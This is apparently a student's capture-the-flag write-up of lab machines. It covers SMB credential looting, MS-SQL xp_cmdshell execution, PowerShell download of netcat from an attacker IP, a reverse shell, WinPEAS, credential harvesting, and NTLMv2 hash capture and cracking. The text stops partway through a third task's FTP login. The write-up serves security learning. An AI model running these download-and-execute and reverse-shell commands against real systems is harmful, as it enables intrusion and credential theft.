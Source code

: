 ## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile    C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP

    xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
    ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```

   In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3

   ![scan port](./image/Task5_get_user.jpg)


9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
    
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe .\winPEASx64.exe
    
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

      We got the password,
   
      ```bash
      
      $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
      
      ```
   
11.  Login as Administrator

        We use impacket pasexec.py:

        ```bash
     
        python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
        
        ```

     or use the Evil-WinRm:

       ```bash
       
       evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
       
       ```

       After this, we can read the root flag:

       ```bash
    
       cd C:\Users\Administrator\Desktop
       type root.txt
        
       ```
    
       get the root flag: b91ccec3305e98240082d4474b848528.

      ![scan port](./image/Task5_get_root.jpg)

## Task 2

### 🛠️The process of solving task2

### What is Burp?

This is a intercepting proxy tool that allow security testers to capture, inspect, modify and forward HTTP(S) request and responses between browser and the serber.

We download the Burp Suite and open the app by the command:

 ```bash

java -jar burpsuite_community_v2024.1.1.jar

 ```

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can get into the page successfully.

   ![log in as guest](./image/Task5_login.jpg)
   
   When i click the log in as guest , the url changed into http://10.129.95.191/cdn-cgi/login/admin.php.

   The page exist but only can access as the guest.
   

    ![scan port](./image/Task5_click.jpg)

4. We use 'curl - I' to check admin page:

   ```bash

   curl -I http://10.129.95.191/cdn-cgi/login/admin.php

   ```

   get the result:

   ```bash

   HTTP/1.1 200 OK
   Date: Thu, 03 Jul 2025 12:16:00 GMT
   Server: Apache/2.4.29 (Ubuntu)
   Content-Type: text/html; charset=UTF-8

   ```

   This means that the page exist and work normal.
   
5. When we click the log in as guest, Burp Suite to intercept this request.

   Inside the HTTP history tab, i discovered the request :

    ```bash

    /cdn-cgi/login/admin.php

    ```

6. We can find the user flag from admin.php page:

   ![scan port](./image/Task5_getuser.jpg)

7. Now we need to get Root Flag:

   Look for the potential vulerablities, we use Burp Suite Responder to intercept the login request.

   ```bash

   http://10.129.95.191/index.php?page=//10.10.14.6/somefile

    ```

   
8.  Use John the Ripper to solve NTLMv2 Hash:

    We copy and paste the hash from the responder into hash.txt and use rockyou to solve the hash.

   ```bash
   john --format=netntlmv2 --wordlist=~/rockyou.txt hash.txt

   ```

9. Login using Evil-WinRm and get the root flag:

   ![scan port](./image/Task5_getRoot.jpg)


## Task 3

### Process of solving task 3

1. Use nmap to scan the target machine(10.129.159.234):
   
   ```bash
   
   nmap -Pn -sC -sV --min-rate 1000 -T4 -oN fast_scan.txt 10.129.159.234

   ```

   After scanning the port , i found that it shows three different, SSH(22), HTTP(80) and FTP(21).

   FTP is used to transfer files and runs on TCP port 21.

2. I typed ftp command to login:

   ```bash

   ftp -4 10.129.159.234 -v -a

   ```
   
    ![scan port](./image/Task3_ftp.jpg)
   
   
   
   


     
    
